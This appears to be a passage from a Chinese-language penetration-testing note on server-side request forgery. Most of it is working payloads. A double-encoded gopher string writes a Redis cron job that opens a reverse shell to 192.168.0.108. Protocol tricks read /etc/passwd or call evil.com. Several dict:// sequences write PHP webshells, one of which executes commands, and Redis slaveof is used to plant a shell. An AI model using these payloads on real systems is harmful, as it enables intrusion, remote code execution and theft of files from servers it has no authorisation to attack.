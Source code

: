 	直接访问
	http://www.xx.com/ssrf.php?url=http://192.168.0.1
![image](/assets/Pentest_Note/master/img/17.png)

	伪造POST请求
	>curl -v 'http://www.xx.com/ssrf.php?url=gopher://192.168.0.10:80/_POST%20/post.php%20HTTP/1.1%250d%250aHost:%20192.168.220.139%250d%250aUser-Agent:%20curl/7.42.0%250d%250aAccept:%20*/*%250d%250aContent-Type:%20application/x-www-form-urlencoded%250d%250a%250d%250acmd=bbbbb'
 ##### gopher协议的脚本转换
	抓取本地测试的正常请求
	>socat -v tcp-listen:4444,fork tcp-connect:目标IP:6379
![image](/assets/Pentest_Note/master/img/18.png)
![image](/assets/Pentest_Note/master/img/19.png)

	将捕获日志保存txt
	使用脚本转换为支持gopher协议的字符串
	转换规则
	如果第一个字符是>或者< 那么丢弃该行字符串，表示请求和返回的时间。
	如果前3个字符是+OK 那么丢弃该行字符串，表示返回的字符串。
	将\r字符串替换成%0d%0a
	空白行替换为%0a
![image](/assets/Pentest_Note/master/img/20.png)

	本地可执行
![image](/assets/Pentest_Note/master/img/21.png)

	远程执行需对空格进行编码后再url编码一次
	*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$63%0d%0a%0a%0a%0a*/1%20*%20*%20*%20*%20bash%20-i%20>&%20/dev/tcp/192.168.0.108/12138%200>&1%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a
![image](/assets/Pentest_Note/master/img/22.png)
![image](/assets/Pentest_Note/master/img/23.png)
![image](/assets/Pentest_Note/master/img/24.png)
 ##### 协议
	Curl版本需低于7.15.1
	file:可回显时，使用file读取任意文件
	dict:查看端口，操作内网服务
	gopher:可发出get/post请求
	使用gopher协议时，要进行两次url编码
	http/https:探测存活主机
	SFTP：ssrf.php?url=sftp://evil.com:11111/
	TFTP：ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET
	LDAP：ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
	netdoc：ssrf.php?url=netdoc:///etc/passwd
 ##### dict协议写shell
	?url=dict://127.0.0.1:6379/set:x:<?php phpinfo();?>
	?url=dict://127.0.0.1:6379/config:set:dir:/www/wwwroot/
	?url=dict://127.0.0.1:6379/config:set:dbfilename:php.php
	?url=dict://127.0.0.1:6379/save
	Unicode编码
	?url=dict://127.0.0.1:6379/set:x:"\x3C\x3Fphp\x20echo `$_GET[x]`\x3B\x3F\x3E"
 ##### slaveof复制shell到目标
	From:http://r3start.net/index.php/2020/05/09/683
	你的redis设置一个shell的键
	Yourredis>FLUSHALL
	Yourredis>set shell "<?php phpinfo();?>"
	?url=dict://127.0.0.1:6379/slaveof:yourredisIP:6379
	?url=dict://127.0.0.1:6379/config:set:dir:/www/wwwroot/
